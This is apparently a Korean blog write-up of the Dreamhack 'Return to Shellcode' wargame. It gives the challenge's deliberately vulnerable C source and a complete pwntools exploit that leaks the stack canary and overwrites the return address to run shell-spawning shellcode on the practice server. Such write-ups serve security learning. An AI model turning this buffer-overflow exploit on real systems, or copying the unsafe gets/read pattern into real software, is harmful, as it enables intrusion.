 ```yaml
---
title: "[Dreamhack] Return to Shellcode 문제 풀이"
date: "2024-09-13"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "용어: Return to Shellcode가 있다. 하지만 Canary를 곁들인."
---
```


# 문제 파악

일단 이 문제의 핵심은 canary이다. 하지만 canary의 Shellcode를 곁들인 느낌이다.

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

위에 이 코드는 이 문제의 소스코드인데 간단하다.
NX가 걸려있지 않은 상태로 컴파일되는 형태이고, 첫번째 input에선 canary를 leak하고 두번째 input에선 shellcode와 더미값(SFP 포함) 그리고 leak했던 canary를 넣어주면 정상적으로 넘어갈 수 있는 문제다.

**이제 문제 분석은 끝났으니 한번 익스를 짜보자**

# 익스 코드 작성

```python
from pwn import *

p = remote('host1.dreamhack.games', 22266)
#p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))


shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

익스 코드는 위와 같다. 간단하게 설명해보겠다.

```python
p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))
```

이 파트는 문제파일에서 실행시 출력해주는 buf 주소 값과 BOF를 통해서 canary 값을 leak을 시킨다.
buf의 주소 값은 추후 Shellcode를 넣고 나서 다시 되돌아갈 포인트이기에 중요하다.
canary는 추후 Return Address Overwrite를 진행할때 canary 값이 깨지기에 이를 방지하고자 꼭 필요한 값이다.

하여튼 **중요한** 값을 두개를 추출한 뒤 이젠 다음 작업을 진행한다.

```python
shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

이 파트는 Shellcode + Canary + SFP + buf 주소를 합쳐서 input 두 개에 값을 집어넣는다.
여태까지 포너블 문제를 풀어오면서 shellcraft를 처음 써보았다.

하여튼 shellcraft로 Shellcode를 만들어주고, 맨 앞엔 Shellcode, 그 뒤엔 Shellcode의 길이 만큼 뺀 더미 값, 좀전에 추출한 Canary, SFP에 들어갈 더미, 다시 돌아갈 buf 주소로 페이로드를 구성해주었다.

**자 그러면 이제 익스를 날려보자.**

# 익스플로잇!!

![](https://i.imgur.com/VOCL5JT.png)

아\~\~\~\~주 잘되는 모습을 볼 수 있다 :)

# 느낀점

아잇,, 이거 페이로드 부분 짤 때 엄청 빡셌던 기억이 납니다.
buf 길이가 계속 자기자리 못잡고 남의 자리를 침범해서 조금 짜증났었습니다.
뭐.. 그래도 요래요래 하다보니 풀리더군요.
갠적으로 이미 배운 부분하고 융합해서 같이 할 수 있다는게 정말 좋았습니다.
